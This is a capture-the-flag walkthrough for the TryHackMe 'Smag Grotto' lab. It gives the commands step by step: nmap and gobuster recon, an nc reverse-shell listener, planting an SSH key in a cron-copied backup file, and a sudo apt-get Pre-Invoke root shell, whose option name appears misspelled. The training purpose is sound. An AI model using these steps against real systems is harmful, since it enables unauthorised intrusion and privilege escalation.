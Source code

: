 ```yaml
---
description: https://tryhackme.com/room/smaggrotto
---
```


# Smag Grotto

### **What is the user flag?**

```
nmap 10.10.199.227
gobuster dir -u http://10.10.199.227/ \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-23 09-25-44.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-23 09-25-48.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-23 09-32-26.png>)

```
wget http://10.10.199.227/aW1wb3J0YW50/dHJhY2Uy.pcap
wireshark dHJhY2Uy.pcap
```

![](<../../.gitbook/assets/Screenshot from 2020-09-23 09-30-11.png>)

```
echo '10.10.199.227 development.smag.thm' | sudo tee -a /etc/hosts
nc -nvlp 4444
$ find /home -name user.txt 2>/dev/null
$ cat /home/jake/user.txt
$ cat /etc/crontab
```

![](<../../.gitbook/assets/Screenshot from 2020-09-23 09-48-15.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-23 09-57-17.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-23 09-46-49.png>)

```
ssh-keygen
cat .ssh/id_rsa
```

```
$ echo 'ssh-rsa xxx kali@kali' > /opt/.backups/jake_id_rsa.pub.backup
```

```
ssh jake@10.10.199.227 cat user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-23 09-58-35.png>)

### **What is the root flag?**

```
sudo -l
sudo apt-get update -o APT::Update:Pre-Invode::=/bin/sh
# cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-23 10-02-58.png>)

## :link: Support Material

{% embed url="https://gtfobins.github.io/gtfobins/apt-get/#sudo" %}
